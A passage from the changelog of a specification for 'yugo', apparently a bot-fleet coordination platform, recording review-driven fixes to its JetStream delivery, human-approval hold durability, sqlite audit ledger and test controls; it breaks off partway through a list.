







# yugo — specification (v12.17)

**Status:** v0.1 scaffold shipped (native harness only). v0.2+ evolves to the full coordination platform described here.

**Audience:** implementers, operators, prospective adopters.

**Fable ship-verdict:** v12 verified SHIP-AS-IS by fable-arch review pass 2026-08-26. v12.1 folds in the two post-ship polish items fable flagged as non-blocking, so the shipped SPEC has zero known issues.

**Changes from v12.16** (three sequencing/erratum fixes and one real defect, all transport-independent — they hold whichever way the JetStream question was decided, and Fernando ruled to KEEP JetStream on 2026-08-30):

- **§4.1's key line had the coordinator consuming the wrong side.** It said the coordinator is a pull consumer on `fleet.<bot>.inbox` and then publishes to those same inboxes — incoherent, and contradicted by §4.3, §4.7, §7 and §15, which all say it consumes `.request` and publishes `.inbox`. Four sections agreed and one did not. Also corrected the claim that the interposition is "the topology change JetStream enables": **authz** enables it — §4.7 denies every bot subscribe on its own `.request` — and JetStream makes it *survivable*. Crediting JetStream with the topology misleads anyone reasoning about what breaks without it.
- **The test proving a 15-minute hold is not redelivered mid-decision was scheduled after the slice that starts holding.** `AckProgress` verification sat in FB-4, and §15 says FB-4 "blocks v1.0, not v0.7". So HITL could ship with its central mechanism unverified. The hold-critical tests now gate 7b, each requiring a control that trips — an implementation that never holds passes a test that only asserts "no redelivery".
- **Hold state is durable at 7b, not 7f.** §4.4 already made the sqlite store mandatory *because* an in-memory hold vanishes on crash, yet 7b started holding while 7f added re-materialization, with a documented window where a crash re-triggers the human prompt. A slice deployable on its own cannot defer its own correctness. The decision and the forwarding record now commit in one transaction, and `expires_at` is absolute rather than a remaining duration — a duration restarts with the process and silently extends every hold across a restart.
- **Second pass on this same version: the repair introduced three new impossibility claims.** Sixth consecutive revision in which fixing this document broke it, and this time in a recognisable way — each error was a *distributed-commit or exactly-once claim* asserted one paragraph after correctly refusing the same claim elsewhere. (a) Reject/expiry was said to commit "the decision, its reason, and the ack of the original" in one transaction — **a JetStream ack is an external broker operation and cannot join a sqlite transaction**, which is precisely what the preceding row refuses for publish/PubAck. Now: commit the decision, ack afterwards, at-least-once, with idempotent terminal-state recovery that does not re-prompt a human. (b) "Mark de-dup before injection" **trades duplicate execution for silent loss** — a crash between the mark and the injection drops an envelope that never executed. Exactly-once injection is not achievable without an idempotent session boundary keyed by envelope id; the honest guarantee is at-least-once, and where an engine cannot offer idempotency the residual duplicate window is documented, because duplicate-on-uncertainty beats silent loss. Both crash controls now required, not one ordering asserted as correct. (c) The full-stream rule required the coordinator to refuse new work *before* eviction, but **`discard: old` evicts inside the server on publish** and no coordinator can interpose. Resolved with what this same version already establishes: the coordinator's sqlite is the durable source of truth for a held envelope, so eviction is detected and audited but is **not data loss**. Age, count and bytes limits behave differently and are no longer conflated.
- **Fourth pass on §7.2: `terminal` was required on records that cannot have one.** The executable table required it on every record, while its meaning is "this envelope's terminal disposition at this stage" — and an `about_type: "action"` record has no envelope and no `id`, so the field had nothing to be about. Different writers would have chosen `false`, omission, or an invented action lifecycle. Now required for `"envelope"` and **forbidden** for `"action"`. The field table also said "at most once per `(id, stage)`" while the rule below said "exactly one" — **exactly one wins**, because a contract permitting zero permits an envelope with no recorded fate, which is the 2026-08-29 incident restated. §11 gains the completeness twin: **zero terminal records must fail**, not only duplicates. A suite with only the duplicate control passes an implementation that never writes a terminal record at all.
- **Third pass on §7.2: two contracts still were not executable.** (a) `terminal` was scoped "at most once per `(id, processing stage)`" while **the schema had no stage field and the section defined no stage vocabulary** — so two adapters could both conform while grouping records differently, and a reader could not verify the promised uniqueness from the log at all. `stage` is now a required field with an exact three-value enum, `sender`/`coordinator`/`adapter`, and §11 needs both controls: two `terminal: true` for one `(id, stage)` rejected, and terminal records for *different* stages accepted. (b) The stream-eviction repair claimed age was guarded by a `max_age ≫ held_timeout_ms` invariant **that appears nowhere else in this document**, using a relation that is not executable — now a numeric startup assertion with 7e's per-class overrides capped, so a later config change cannot silently erase the margin. It also said held-message eviction is "detected and audited" without saying how, when **`discard: old` happens inside JetStream and the coordinator gets no event tied to its sqlite row** — now the stream sequence is persisted with the hold and reconciled on a defined cadence, with a named incident and a control that evicts the actual held sequence. And **bytes is removed from the contract entirely: FB-1 declares no byte limit**, so that clause described a limit that does not exist.
- **The typed audit fields had no executable shapes.** `action_id` generation and the terminal marker's name and type were left to whoever implements it, which defeats the point of a section that exists to make the log machine-checkable. Now: `about_type` exactly `"envelope"`/`"action"`, `id` required-and-forbidden by type, `action_id` a UUIDv4 unique per attempt, `terminal` a boolean rather than an inference from `dir` or a reason code — with positive and negative schema controls in §11.
- **§7.2's first draft asserted an identity that does not exist on reachable paths.** It said an outbound failure carries the outbound envelope's id "even when that envelope was never published — it was constructed". False: the baton warning can be suppressed before construction, and `yugo_publish_failed` covers failures that occur before construction. Minting an id for an envelope never built makes the log *look* more concrete rather than being more honest. Identity is now typed — `about_type: envelope|action`, `id` only when an envelope exists, `action_id` when it does not. **And the uniqueness rule contradicted §7A.6**, which requires an audit line for every held envelope and every human decision, all naming the same envelope; scoped now to exactly one *terminal disposition* per envelope per stage, with non-terminal lifecycle records expected.
- **The transactional-outbox paragraph claimed to close a window it cannot close.** A publish can reach JetStream and the process die before the PubAck is recorded, so recovery must retry and the ambiguity is unavoidable. What makes retry safe is now stated: byte-equivalent envelope with the SAME id (reminting defeats §14 and double-executes), ack the original only after PubAck, and the recipient's de-dup is the execution-once boundary — the coordinator's outbox can only achieve at-least-once. Reject and expiry commit too, which is the path nobody thinks about.
- **7b's gate named scenarios without outcomes.** "Stream-limit behaviour under a full stream" cannot be written into a test without inventing whether 7b fails closed, alerts, or accepts loss. Each scenario now carries its invariant and its tripping control — including that `discard: old` deletes regardless of ack state and can therefore evict a held envelope, which must be a loud incident and never silent.
- **New §7.2 — audit identity.** `yugo_baton_warning_suppressed` and `yugo_publish_failed` describe OUTBOUND actions while carrying the INBOUND envelope's id, so one id holds records about two different objects and *"what happened to envelope X"* is answerable only by a reader who knows which reason codes describe X. A record's `id` now names what it is about, `caused_by` carries the causal link, and exactly one record carries the inbound id — its terminal fate. **Found by Vec bouncing a brief of mine that asserted the invariant as though it already held.**

**Fourth pass on §7.2 and 7b** — two blockers, one of them the previous pass's own fix.

- **`terminal_audited` moved the sender-stage window instead of closing it, and made recovery worse.** The JSONL append cannot join the sqlite transaction, so setting the flag at commit time means a crash between commit and append leaves the flag true, recovery declines to retry, and the envelope ends with **zero** terminal records — verbatim the "outbox-mark-first" failure the same row rules out two sentences earlier, except that without the flag recovery would at least have retried. Appending first fails the other way with two records for one key, and deduping that needs the audit log read back, which the row forbids. **Neither ordering can work while the durable decision and the durable record live in different systems.** The fix is to stop having two: the terminal record is committed INTO the transaction as an `audit_pending` row, and the JSONL line becomes a projection replayed idempotently until marked emitted. Same rule §14 applies to delivery — the thing that must not be lost lives somewhere durable, and the lossy artifact is derived from it.
- **Three more malformed table rows, in this PR's own new content** — the 7b gate table's last row and the reject-and-expiry row both carried a surplus cell with no terminator, and a list item sat immediately inside a table with no separating blank line. The dropped text included the `§4.4` citation correction that this version's changelog announces as landed. Found by §11's cell-count control on its second implementation; the first missed them because it compared separator counts without requiring the terminator.

**Sixth pass on §7.2 — Ohm again, on the fold to his own review.** He confirmed B1 and B2 closed and found that **the split itself opened a new zero window.** Two SQLite artifacts — the permanent ledger row and a separate projection-queue row — with **no rule making their inserts atomic and no way to reconstruct a missing queue entry.** So: commit the disposition, crash before enqueuing, restart with a correct permanent ledger row, an empty queue, and **zero JSONL lines forever**. Every revised §11 control passed, because uniqueness had correctly moved off the log and nothing asserted that a durable disposition receives a projection *at all*.

**The queue is gone.** Projection state is a single mutable `emitted` column on the ledger row; the projector selects rows where it is false. Two SQLite rows *can* be inserted atomically — and unlike the four claims before it, that one would have been real — but **a column needs no handoff, so there is nothing to get wrong.**

Worth recording, because it inverts an earlier decision in this same section: **a flag was rejected two revisions ago precisely because a crash between append and mark duplicates the line.** That objection was correct while the log still had to be unique. Once uniqueness moved to the ledger, the duplicate stopped being a defect and the flag became sufficient. **The old objection is now wrong, and it is wrong because a different rule changed** — not because it was ever unsound. A reader who re-derives it from first principles will re-reject the flag.

Also added the completeness twin the projection side never had: a crash between the ledger insert and the append must still eventually produce **at least one** line. Without it, the source of truth is sound and the audit artifact silently omits the event it exists to render.

**Fifth pass on §7.2 — Ohm, on the fold itself.** Two blockers, both against text written an hour earlier, and the first is **the fourth distributed-atomicity claim this section has made.**

- **"Inside the same transaction as the business fact — the injection, the publish, the decision" is true of exactly ONE of those three.** A human decision is SQLite-resident; an engine injection and a JetStream PubAck are external operations that cannot join a SQLite transaction. So the zero window I had just declared closed was still open: PubAck arrives, the process dies before the ledger insert commits, and the external fact exists with no row. **The paragraph is now stated as a limit rather than a guarantee** — local uniqueness plus idempotent convergence, with the external-to-SQLite window named and retained, and §11 controlling both crash boundaries (injection-before-row, PubAck-before-row) for eventual exactly-one without reminting the id.
- **`audit_pending` could not be the oracle, and its own name said so.** It conflated the durable record with the queue of things not yet projected, so a conventional projector that culls emitted rows satisfies the UNIQUE constraint *while pending* and then answers **zero** — breaking sender-stage de-dup and §11's completeness twin later, silently, with the table control passing if asserted before emission. Split in two: **`terminal_dispositions`**, permanent, append-only, immutable after insert, retained for the audit lifetime; and a **separate projection queue** for what has not reached the log. §11 now asserts **after emission and after a restart**. Replay must also reproduce the committed payload rather than regenerate a timestamp, since "dedupe by key" says nothing about which of two disagreeing lines wins.

Four revisions of one paragraph, and every one asserted atomicity across a boundary that does not have it. The lesson is recorded here rather than in a commit message: **when a rule spans SQLite and anything else, the honest form is at-least-once plus idempotent recovery, and any sentence containing "commit together" is wrong before it is finished.**

**Fourth pass on §7.2 and 7b — Codex, on the recovery PR.** Two P1 and one P2, and the first is the third consecutive failure of the same paragraph.

- **`audit_pending` did not make the projection idempotent either — it moved the crash window a third time.** The sequence: a `terminal_audited` flag left ZERO records on a crash between commit and append; committing the record into the transaction and replaying "until marked emitted" leaves TWO, because marking a row emitted is *still* a second system on the write path. There is no ordering of a sqlite write and a file append that makes the pair atomic, and §7.2 forbids reading the log back as an oracle, so nothing in a JSONL file can carry a uniqueness invariant. **The invariant therefore moved off the log entirely:** it is a UNIQUE constraint on `audit_pending(envelope id, stage)` in sqlite, the log is an explicitly duplicate-tolerant projection, and any reader asserting uniqueness dedupes by `(id, stage)` or reads the table. §11's uniqueness control and its zero-is-also-a-failure twin now assert against the **table**. Three attempts to give a file transactional semantics is sufficient evidence that it has none.
- **7f still owned the read half of the durability 7b had just claimed.** Hold state was declared durable at 7b while loading sqlite on restart and re-materializing held envelopes stayed in 7f, along with a note permitting duplicate human prompts between the slices. **Persisting a row nobody reads back is not durability**, and 7b's own gate test — restart mid-hold, re-materialize with `expires_at` intact — was unsatisfiable while its mechanism sat two slices later. Startup recovery and prompt reconciliation are now 7b; 7f keeps the residual redelivery handling and the restart UX.
- **The `AckProgress` gate control was unreachable under any legal configuration.** It asserted that a hold outliving `ack_wait` is not redelivered — but the startup rule one screen above refuses every configuration where a hold timeout reaches `ack_wait`, so a conforming setup expires the hold before redelivery is ever due and an implementation that never heartbeats passes for free. Configuring the scenario as written would prevent the coordinator starting at all. It now exercises a hold past `ack_wait/2` and **counts heartbeats**, which is reachable and is the thing the rule is actually about.

**And the row itself is gone.** §7.2's terminal-disposition cell had reached **5,229 characters** — a rule, four crash enumerations, two rejected designs and two sub-cases in one table cell — and three consecutive attempts to fix it each broke something six clauses away. It is now a short rule plus **§7.2.1**, which holds the crash boundaries in a table where they can be read. The size was not incidental to the defects; it was the mechanism.

**Third pass on §7.2 and 7b** — three blockers, two of them the same shape as everything else this version has had to fix.

- **The disposition enum had no field.** `in` / `out` / `drop` were named only in prose, while this section explicitly forbids inferring terminality from `dir` or from a reason code — so §11's mandated control, *"a successfully published envelope carries a terminal `out` record at `stage: sender`"*, had no key to assert `"out"` against. **This is the "supported charset had no defined set" defect from §9.3.3, recurring in §7.2:** an enum whose values are enumerated and whose field is not. Now a required-when-terminal `disposition` field in the executable table.
- **The idempotency rule had no oracle at `stage: sender` — the exact stage it was written for.** The previous pass forbade reading back the audit log and designated §14's de-dup store instead, which answers only for the inbound side. §14's stores record envelopes this process *received*; nothing recorded envelopes it *published*, so the outbound crash pair the rule exists to resolve had no way to ask "does this key already carry a terminal record?". **§15's outbox row now carries `terminal_audited`, set in the same sqlite transaction as the sent-mark.** One column. Without it, two conforming implementations crash-recover to different logs — precisely what §7.2 exists to end — and the fix for that was written by the same author as the defect, which is why it needed a third pass to catch.
- **The 7b gate table's last row was unterminated**, losing the column that names the invariant it must assert. Same authoring defect as the three malformed tables in §9.3.3 and §9.4, and now covered by §11's cell-count control.

**Second adversarial pass on §7.2 and 7b, folded into this same version** — three blockers, all of them against the previous pass's own fixes, and all three the same class the previous pass was written to close.

- **Giving a successful publish a terminal `out` disposition created a second way to write two terminal records for one `(id, stage)`.** The audit is JSONL and an external operation cannot join a sqlite transaction, so the terminal write and the outbox-mark are separate; audit-first yields a duplicate terminal record when §15's mandated retry re-publishes after a crash, and mark-first yields zero. **A correct implementation failed §11's uniqueness control by doing exactly what §15 requires** — the fifth instance of this class, inside the fix for the third. Terminal records are now written idempotently keyed by `(id, stage)`, which is the same answer §15 already reaches for the injection side. The de-dup exemption also needed a decidable source: it now reads from §14's durable de-dup store rather than from an audit log this document never makes readable.
- **`ack_wait` was bound to a phrase that means a ceiling.** The previous pass copied the `max_age` rule's "the LARGEST hold timeout any class CAN configure" without copying the sentence that defines it — the cap at `max_age − 24h`. With FB-1's `max_age: 7d` that evaluates to six days, so the startup assertion demanded `ack_wait > 6d` and **refused to run on stock configuration**; an operator who complied would get one `AckProgress` heartbeat every three days and vacate the gate test it exists to support. Now bound to the largest `held_timeout_ms` actually present in `POLICY_FILE`, which is what the bullet's own worked example always implied.
- **The new `caused_by` control tested the required half and not the forbidden half**, two sentences after the bullet stating that each half is required. §7.2's prose says `caused_by` is absent when a record is about the envelope it names, but the executable table reduced it to "String or absent", so an implementation stamping `caused_by = id` on every record passed every control while making the field pure self-reference. Now forbidden and controlled.

Also folded: the `§12.17` citation became `§4.4` in the previous pass and **§4.4 does not support the claim**, so the sentence now cites itself and says so; "that transaction" lost its referent when the hold was split in two; and the §7.2 controls bullet now carries a version tag like every other bullet in that list.

**Adversarial pass on §7.2 and 7b, folded into this same version** — five blockers. The signature error this version's changelog names — *a distributed-commit or exactly-once claim asserted one paragraph after correctly refusing the same claim elsewhere* — was still live in a row **this version added**, which is the fourth instance and the reason the list below is worth reading as a class rather than five items.

- **The 7b gate table asserted exactly-once, one screen above the row refusing it as unachievable.** "The forward happens exactly once" sat above "the coordinator's outbox can only ever achieve at-least-once" and above the crash-window row saying the forward is published twice by design and the recipient's de-dup absorbs it. A correct implementation *failed the gate meant to pass it*. Worse, the citation pointed at §7.2's retry rule, which says a retry is a new attempt with a NEW `action_id` — a different object and the opposite instruction, so a coder following it remints the envelope id and double-executes, which is precisely what this section says defeats §14's de-dup. Now: retried with the same envelope id until PubAck, recipient executes once, and reminting must fail the control.
- **"Exactly one `terminal: true` per `(id, stage)`" collided with the at-least-once delivery this same document requires.** A duplicate absorbed by de-dup is a drop with a named reason; an implementation that audits it as terminal then has two terminal records for one `(id, stage)` and fails the control, having done nothing wrong. A de-dup drop against an already-terminal stage is now explicitly non-terminal.
- **A successfully published outbound envelope had no terminal disposition at all.** The enumeration was `in` for injected and `drop` otherwise — both inbound-side — so the ordinary case §7.2 was written about (build a reply, publish it, `stage: sender`) matched neither, and an implementation had to invent a disposition or violate a completeness rule it could not satisfy. `yugo_publish_failed` gave the outbound *failure* a contract while the outbound *success* had none: **the same one-half-of-a-pair miss this document has now hit three times**, which is why the fix is an explicit `out` rather than a wording repair.
- **§7.2 called for controls three times and none reached §11.** `about_type`, `action_id`, `terminal` and `stage` appeared nowhere outside §7.2 itself. And **`caused_by` — the field carrying the section's central idea — had no control in either place**, so an implementation emitting it never passes every control the document names while losing the causal link that is half the reason §7.2 exists. Since §7.2 governs shipped v0.3 code, the controls land under v0.3 rather than a future slice.
- **"Inside ONE transaction with the decision" left the hold itself unpersisted until a human clicked.** That list mixes hold-time facts with decision-time facts and binds them to a transaction that cannot commit before a decision exists — so a literal implementation buffers the hold in memory and writes on click. A crash during the 15-minute hold leaves no row, the envelope is redelivered and re-held with a **fresh** `expires_at`: exactly the silently-extending hold the same sentence forbids. Two transactions now, with the hold committed before the human prompt is emitted.

Also folded: **`ack_wait` now binds the largest configurable hold timeout** rather than the `HELD_TIMEOUT_MS` default — the `max_age` rule was corrected this way and its sibling was left behind, so a 7e per-class override could produce a hold outliving `ack_wait` while passing the startup assertion. And a **`§12.17` citation** that pointed at a section with no subsections is now `§4.4`.

**Second adversarial pass on §9.3.3, folded into this same version** — the five original blockers closed, four more found, two of them holes I opened while closing the first five:

